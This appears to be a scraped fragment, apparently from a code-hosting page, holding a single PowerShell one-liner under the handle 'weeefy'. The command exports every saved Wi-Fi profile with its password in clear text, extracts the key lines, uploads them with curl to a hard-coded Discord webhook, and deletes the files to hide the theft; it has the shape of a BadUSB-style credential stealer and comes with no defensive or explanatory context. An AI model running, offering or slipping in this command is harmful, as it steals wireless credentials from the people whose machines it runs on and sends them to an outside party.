 weeefy:

cd $env:tmp;netsh wlan export profile key=clear;Select-String -Path Wi*.xml -Pattern 'keyMa*' > Wi-Fi;curl.exe -F "f=@Wi-Fi" "https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc";rm "Wi-*"

